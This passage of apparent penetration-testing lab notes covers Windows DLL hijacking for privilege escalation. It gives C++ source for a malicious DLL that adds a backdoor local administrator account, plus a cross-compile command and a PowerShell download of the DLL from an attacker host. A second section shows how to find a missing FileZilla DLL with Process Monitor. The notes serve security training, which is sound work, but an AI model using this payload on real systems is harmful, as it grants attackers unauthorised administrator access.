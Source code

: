 	- Use `$env:path` command in PowerShell to list the directories in the PATH environment variable
	- We can create a malicious DLL to replace one which is missing, or place it in a location with a higher search order than the location of the original DLL
9. Create malicious DLL:
   ```C++
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
 switch ( ul_reason_for_call )
 {
 case DLL_PROCESS_ATTACH: // A process is loading the DLL.
 int i;
 i = system ("net user dave2 password123! /add");
 i = system ("net localgroup administrators dave2 /add");
 break;
 case DLL_THREAD_ATTACH: // A process is creating a new thread.
 break;
 case DLL_THREAD_DETACH: // A thread exits normally.
 break;
 case DLL_PROCESS_DETACH: // A process unloads the DLL.
 break;
 }
 return TRUE;
}
```
10. Cross-compile code:
    `x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll`
11. Transfer malicious DLL to the target directory in the target machine
    (PS) `iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll`
12. Restart target service
    (PS) `Restart-Service BetaService` 
    or the other method in the above section
13. The new user with local administrative privileges should be created:
    `net user`
    `net localgroup administrators`

#### Abusing missing DLL (2023)
1. Connect to client via RDP as user
2. Enumerate installed applications: (like in previous section)
   (PS) `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
3. Identify that one of the installed applications (`FileZilla 3.63.1`) has a DLL hijacking vulnerability (according to online resources)
4. Copy the vulnerable service binary to a local machine (where you can local admin privileges) to monitor it on Process Monitor
5. In Process Monitor, apply filter for the target service:
	1. *Filter* -> *Filter ...*
	2. Enter the following:
		   Column: Process Name
		   Relation: is
		   Value: filezilla.exe (name of target service binary)
		   Action: Include
	3. *Add*
	4. After adding the filter, the list should only contain entries of the filtered binary
6. Clear all current events by pressing *Clear* button (trash can icon)
7. Run the application. Observe that entries appear in ProcMon
8. Add another filters to filter for entries specific to this vulnerability:
	- `Operation is CreateFile` (note that the `CreateFile` operation is responsible for not only creating files but also accessing them)
	- `Path contains TextShaping.dll` (the missing DLL according to online sources)